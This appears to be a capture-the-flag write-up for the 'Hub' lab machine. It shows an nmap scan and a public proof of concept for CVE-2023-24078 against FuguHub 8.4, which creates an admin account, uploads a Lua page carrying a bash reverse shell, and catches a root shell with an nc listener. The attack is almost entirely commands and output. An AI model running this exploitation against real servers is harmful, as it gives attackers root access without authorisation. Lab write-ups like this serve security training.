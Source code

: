 `└─$ head ./192.168.190.25/nmapAutomator_192.168.190.25_all.txt -n 200` 

`Running all scans on 192.168.190.25`

`Host is likely running Unknown OS!`

`---------------------Starting Port Scan-----------------------`

`PORT     STATE SERVICE`
`22/tcp   open  ssh`
`80/tcp   open  http`
`8082/tcp open  blackice-alerts`
`9999/tcp open  abyss`

If we check out http://192.168.193.25:8082, it asks us to create an administrator account.
Let's check the About page to see what we're working with.

![[Pasted image 20240214145856.png]]

If we google "FuguHub 8.4 exploitdb" - the second result is a PoC with a video.
https://github.com/overgrowncarrot1/CVE-2023-24078

Launch the PoC

`└─$ python CVE-2023-24078.py -p 4444 -l 192.168.45.235 -r 192.168.193.25 -P 8082`
`Installing necessary tools if not already installed`
`Colorama installed, not installing`
`Selenium installed, not installing`
 `_____ _____  _____    ______ _   _ _____ _   _ _   _ _   _______` 
`|  _  |  __ \/  __ \   |  ___| | | |  __ \ | | | | | | | | | ___ \`
`| | | | |  \/| /  \/   | |_  | | | | |  \/ | | | |_| | | | | |_/ /`
`| | | | | __ | |       |  _| | | | | | __| | | |  _  | | | | ___ \`
`\ \_/ / |_\ \| \__/\   | |   | |_| | |_\ \ |_| | | | | |_| | |_/ /`
 `\___/ \____/ \____/   \_|    \___/ \____/\___/\_| |_/\___/\____/` 
`Trying to set the following parameters`
`Email adm1n@localhost.local , username adm1n password P@ssw0rd!` 
`Creating admin user on http://192.168.193.25:8082/Config-Wizard/wizard/SetAdmin.lsp` 

`Logging in to WebFileServer to retrieve cadaver information` 

`Logging in at http://192.168.193.25:8082/rtl/protected/wfslinks.lsp`
`Making lua.lsp script with bash reverse shell going to 192.168.45.235 on port 4444`

`<_io.TextIOWrapper name='lua.lsp' mode='w' encoding='UTF-8'>`
`Copy the URL you see in the popup, this will be known below as <URL>`
`Run the following commands`

`cadaver` 
 `open <URL>` 
 `cd ..` 
 `adm1n` 
 `P@ssw0rd!` 
 `put lua.lsp` 
 
`Open new tab and start listener with nc -lvnp 4444 press enter to continue`

We open Cadaver and run the commands
`└─$ cadaver`                       
`dav:!> open http://192.168.193.25:8082/fs/b1b853dc1e992ab53cc2b8ed/`
dav:/fs/b1b853dc1e992ab53cc2b8ed/> `cd ..`
`Authentication required for Web File Server on server 192.168.193.25':`
`Username: adm1n`
`Password:` 
dav:/fs/> `put /home/user/Offsec/ProvingGrounds/Hub/CVE-2023-24078/lua.lsp`
`Uploading /home/user/Offsec/ProvingGrounds/Hub/CVE-2023-24078/lua.lsp to /fs/lua.lsp':`
`Progress: [=============================>] 100.0% of 349 bytes succeeded.`
dav:/fs/> 

Launch nc as the PoC says then push enter in the PoC
`└─$ nc -nlvp 4444`
`Ncat: Version 7.94SVN ( https://nmap.org/ncat )`
`Ncat: Listening on [::]:4444`
`Ncat: Listening on 0.0.0.0:4444`
`Ncat: Connection from 192.168.193.25:40580.`
`bash: cannot set terminal process group (468): Inappropriate ioctl for device`
`bash: no job control in this shell`
`root@debian:/var/www/html#` 

We're root! Get the flag.
`root@debian:/var/www/html# cat /root/proof.txt`
`cat /root/proof.txt`
`f65d3514a9a9793efaec2336e9ae30e6`


